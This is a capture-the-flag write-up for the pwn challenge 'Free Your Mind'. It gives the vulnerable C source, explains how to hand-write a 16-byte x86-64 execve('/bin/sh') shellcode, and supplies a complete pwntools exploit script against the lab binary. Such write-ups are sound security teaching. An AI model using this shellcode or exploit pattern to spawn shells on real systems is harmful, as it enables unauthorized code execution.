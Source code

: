 # Free Your Mind - PWN (200pts)

```c
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door\
. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
```

## Investigation
This challenge is more a task of avoiding constraints rather than identifying a weakness and exploiting it. From the source code we can see that the binary reads input data, stores it in the array declared as shellcode and then attempts to run this as a function. Assuming we can input a working shellcode to the binary, it should spawn a shell. Since the pointer is provided by the source code, we don't have to worry about ASLR for this challenge.

But there is a problem - The allocated memory for shellcode is only 16 bytes. By using conventional methods such as pwntools shellcraft.sh() or cherrypicking shellcode from shell-storm.org we will end up with too many bytes and our exploit will not work. 

For example, by using `asm(shellcraft.sh())`, we end up with 48 bytes of shellcode. You could potentially MacGyver some short online shellcode with the right pointer, but where is the fun in that?

## Solution

It looks like we will just have to write our own shellcode, which is probably the intended solution by the author as well. It forces us to learn how it works and that makes it a good chall in my opinion. 

Let's first understand what we need to do. The code we want to execute is a syscall known as `execve('/bin/sh')`. Since we are coding this in Assembly we need to check the register and value set-up before we start. A good resource on this is https://filippo.io/linux-syscall-table/. Search for execve and double click the entry to expand.

We see that execve() is a syscall that needs RAX to have the value of 59 (0x3b) when you call the system. It then takes three arguments; a filename pointer in RDI, an argv in RSI and env in RDX. We don't really care about the last two. To explain this in terms of pseudo-Assembly we want to execute `syscall(RAX, RDI, RSI, RDX)`, where `RAX=0x3b`, `RDI=<pointer to '/bin/sh'>`, `RSI=0x0` and `RDX=0x0`.

The static values are easy, we know them now. All we need is the pointer. Open the binary in GDB, run, CTRL+C to interrupt the process and type `find '/bin/sh'`. We know from the source code that there is a pointer in main so we just need to grab it: `0x4011b3`

Now we can stitch together assembly-code. We know that we need the code to be 16 bytes or lower, so let's use the 32-bit registers to make the syscall to shorten down. We can start with the parameters of execve(): `EDI, ESI, EDX`:

`mov edi, 0x4011b3;`, `xor esi, esi;`, `xor edx, edx;`. XORing a register with itself is an effective way of zeroing it out rather than using mov and 0x0.

That's our params set up. Now to make the right syscall - EAX needs to be 0x3b:

`mov eax, 0x3b;` and then make the call to system: `syscall;`.

Stitch it together with pwntools asm():

```py
shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall')
```

This translates to `execve('/bin'sh')` You can check the length of the shellcode with a quick python sandbox:
```py
>>> from pwn import *
>>> len(asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall'))
16
```

That should do the trick. Now plop it into a script and run the exploit:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = 'DEBUG'

gdbscript = '''
b *0x0000000000401245
continue
'''.format(**locals())

io = process('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
#io = gdb.debug('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d',  gdbscript=gdbscript)
#io = remote('chal.ctf.b01lers.com', '1007')

shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall')

log.info(f'Shellcode length: {len(shellcode)}')

io.sendlineafter('it.', shellcode)

io.interactive()
```

![](assets/pwned.png)

Remote was down when I wrote this, but exploits works:)
